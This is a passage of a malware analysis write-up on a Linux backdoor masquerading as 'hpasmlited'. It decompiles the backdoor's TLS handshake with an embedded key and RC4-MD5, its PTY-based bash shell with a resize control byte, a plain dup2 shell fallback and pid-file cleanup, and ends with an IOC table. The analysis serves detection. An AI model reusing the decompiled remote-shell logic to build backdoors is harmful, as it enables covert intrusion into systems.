The binary is statically linked with **OpenSSL 1.0.1e** (`OpenSSL 1.0.1e 11 Feb 2013` string), so all the OpenSSL functions are stripped `sub_XXXX`. I identified them by the strings and by the `SSL_METHOD` vtable. For example `sub_412110` and `sub_412080` look like this:

```c
__int64 __fastcall sub_412110(__int64 s)
{
  if ( !*(_QWORD *)(s + 48) )   // s->handshake_func
    sub_4120C0();               // SSL_set_accept_state
  return (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)(s + 8) + 32LL))(s); // s->method->ssl_accept
}

__int64 __fastcall sub_412080(__int64 s)
{
  if ( !*(_QWORD *)(s + 48) )
    sub_412030();               // SSL_set_connect_state
  return (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)(s + 8) + 40LL))(s); // s->method->ssl_connect
}
```

In OpenSSL 1.0.1, `ssl_accept` is at offset 32 and `ssl_connect` is at offset 40 of `struct ssl_method_st`, so `sub_412110` is `SSL_accept` and `sub_412080` is `SSL_connect`. With that, the TLS part becomes:

```c
  if ( is_server )  // hash2, iptables redirect mode
  {
    SSL_library_init(); SSL_load_error_strings(); ...
    ctx = SSL_CTX_new(TLSv1_server_method());
    cert = PEM_read_bio_X509(BIO_new_mem_buf(x509_cert, -1), 0, 0, 0);
    SSL_CTX_use_certificate(ctx, cert);
    key = PEM_read_bio_RSAPrivateKey(BIO_new_mem_buf(rsa_private_key, -1), 0, 0, 0);
    SSL_CTX_use_RSAPrivateKey(ctx, key);
    if ( !SSL_CTX_check_private_key(ctx) ) { ... }
    SSL_CTX_set_cipher_list(ctx, "RC4-MD5");
    ssl = SSL_new(ctx);
    SSL_set_fd(ssl, fd);
    if ( SSL_accept(ssl) <= 0 ) return 0;
  }
  else              // hash1, reverse connect mode
  {
    ...
    ctx = SSL_CTX_new(TLSv1_client_method());
    SSL_CTX_set_cipher_list(ctx, "RC4-MD5");
    ssl = SSL_new(ctx);
    SSL_set_fd(ssl, fd);
    if ( SSL_connect(ssl) <= 0 ) return 0;
  }
```

So in the bind mode the victim is the TLS server and uses a hardcoded self-signed certificate (`C=AU, ST=Some-State, O=Internet Widgits Pty Ltd`, the default value of `openssl req`, valid from `2023-07-24` to `2033-07-21`) together with its RSA private key, both embedded in plain text in `.rodata`. In the reverse mode, the victim is the TLS client and does not verify anything. The cipher is forced to `RC4-MD5`, which is very old, but from the IDS point of view the traffic on port 443 is still a TLS session and the content of the shell is encrypted. Also, because the private key is inside the binary, if you have a pcap of the bind mode session, you can decrypt it (RC4-MD5 uses RSA key exchange, no forward secrecy).

### PTY

After the handshake, `sub_40797E` tries to allocate a pseudo terminal:

```c
__int64 __fastcall sub_40780D(char *name)    // open master
{
  memcpy(name, "/dev/ptmx", 0xAu);
  fd = open(name, O_RDWR);
  ...
  grantpt(fd);
  unlockpt(fd);
  strcpy(name, ptsname(fd));
  return fd;
}

__int64 __fastcall sub_4078D4(int master, const char *name)    // open slave
{
  v3 = open(name, O_RDWR);
  ...
  if ( ioctl(v3, I_PUSH, "ptem") >= 0 )
  {
    if ( ioctl(v3, I_PUSH, "ldterm") >= 0 )
      ioctl(v3, I_PUSH, "ttcompat");
  }
  return v3;
}
```

The `I_PUSH` (`0x5302`) with `ptem`, `ldterm`, `ttcompat` is the STREAMS way to set up a terminal on Solaris. On Linux these `ioctl` just fail and the result is ignored, so this is a leftover from a code that was meant to be portable. If the PTY is ready, the malware forks:

```c
    pid = fork();
    if ( !pid )
    {
      close(master);
      ioctl(slave, TIOCSCTTY);   // 0x540E, make the pty the controlling terminal
      close(sock);
      dup2(slave, 0);
      dup2(slave, 1);
      dup2(slave, 2);
      close(slave);
      execve("/bin/bash", argv, envp);
    }
```

The parent then acts as a relay between the PTY master and the TLS connection with `select`. Data from the PTY master is sent with `SSL_write`, and data from `SSL_read` is written into the PTY master. But there is a small trick in the direction from the operator to the shell:

```c
        v38 = SSL_read(ssl, buf, 0x8000);
        src = memchr(buf, 0x0B, v38);
        if ( src )
        {
          // copy 5 bytes starting from 0x0B, read more if it is split
          ...
          ws.ws_row = (dest[1] << 8) + dest[2];
          ws.ws_col = (dest[3] << 8) + dest[4];
          ioctl(master, TIOCSWINSZ, &ws);   // 0x5414
          kill(0, SIGWINCH);                // 28
          write(master, buf, src - buf);
          write(master, src + 5, remaining);
        }
        else
          write(master, buf, v38);
```

The byte `0x0B` followed by 4 bytes (rows, cols, Big-Endian) is a control message to resize the terminal, then the malware sends `SIGWINCH` to the process group so that `vim`, `top`,... redraw correctly. Everything else is forwarded to bash as is. When the loop breaks, it does `SSL_shutdown`, frees everything, `waitpid` for bash and calls `vhangup()` to hang up the terminal before exiting.

If the PTY can't be created, the fallback is a basic shell:

```c
  if ( !fork() )
  {
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execve("/bin/bash", argv, envp);
  }
```

Here bash is connected directly to the raw socket and not to the `SSL` object, so after the TLS handshake the shell traffic is actually in plain text. I guess the client of the operator would just break in this case.

## Malware cleanup

The `sub_4077BD()` is to ensure the removal of the `/var/run/hpasmlited.pid` when the daemon is shutdown.

```c
void __noreturn sig_term_handler()
{
  sub_40777F();
}

__sighandler_t sub_4077BD()
{
  sub_504FB0(sub_40777F);
  return signal(SIGTERM, sig_term_handler);
}

void __noreturn sub_40777F()
{
  if ( getpid() == pid )
    unlink_wrapper(file);
  _exit(0);
}
```

The `sub_504FB0` is `atexit`, so the pid file is removed both when the process exits normally and when it is killed by `SIGTERM`. The check `getpid() == pid` makes sure that only the main daemon removes it, not the forked shells.

The code:

```c
void sig_cld_handler()
{
  signal(SIGCHLD, (__sighandler_t)sig_cld_handler);
  waitpid(-1, 0, 1);
}

signal(SIGCHLD, (__sighandler_t)sig_cld_handler);
```

is to make sure the zombie process is cleaned up properly.

## IOCs and detection

| Type | Value |
|---|---|
| SHA256 | `ed768dd922742a597257ad684820d7562bb6be215710ec614bd041a22f3d6863` |
| Pid file | `/var/run/hpasmlited.pid` |
| Process name | `hpasmlited -f /dev/hpilo`, `/usr/sbin/zabbix_agentd` |
| Password salt | `I5*AYbs@LdaWbsO` |
| Password hashes | `73b9989bb8dd522b8e172f2e985810eb`, `d46bf5d43cffd7793665d40fc767ed86` |
| Magic | `0x7255` (UDP/ICMP), `0x5293` (TCP), `"9999"` at TCP payload offset 26 |
| Listening port range | `42391 - 43390` |
| TLS | cipher `RC4-MD5`, self-signed cert `O=Internet Widgits Pty Ltd` |
